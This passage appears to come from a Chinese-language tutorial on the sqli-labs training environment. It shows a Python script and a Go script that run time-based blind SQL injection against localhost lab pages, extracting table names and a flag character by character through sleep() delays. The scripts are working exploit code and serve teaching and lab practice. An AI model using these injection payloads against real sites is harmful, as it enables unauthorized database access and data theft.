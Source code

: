 ```python
        break
    
for i in range(1, lenth+1):
    for j in payload:
        try:
            url = "http://127.0.0.1/sqli/less-62/?id=1') and if(mid((select table_name from information_schema.tables where table_schema='CHALLENGES'),"+str(i)+",1)='"+str(j)+"',sleep(5),1)--+"
            r = requests.get(url,timeout=5)
        except:
            result += str(j)
            break
    print result
```
![](https://upload-images.jianshu.io/upload_images/11356161-71ce868c1ca27996.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

Golang时间盲注：

利用goroutine来快速注入

```go
package main

import (
	"fmt"
	"time"

	"github.com/eddieivan01/nic"
)

var flag = [32]byte{}

func display() {
	for {
		time.Sleep(time.Duration(1) * time.Second)
		fmt.Println(string(flag[:]))
	}
}

func main() {
	payload := `select flag from flag`
	var url string
	for i := 1; i < 30; i++ {
		go func(i int) {
			for _, j := range []byte("{}qwertyuioplkjhgfdsazxcvbnm098764321_") {
				url = fmt.Sprintf("http://127.0.0.1/sqli/Less-1/?id=1' and if(mid((%s),%d,1)='%v',sleep(3),0)-- -", payload, i, string(j))
				_, err := nic.Get(url, &nic.H{
					Timeout: 3,
				})
				if err != nil {
					flag[i-1] = byte(j)
					return
				}
			}
		}(i)
	}
	display()
}

```

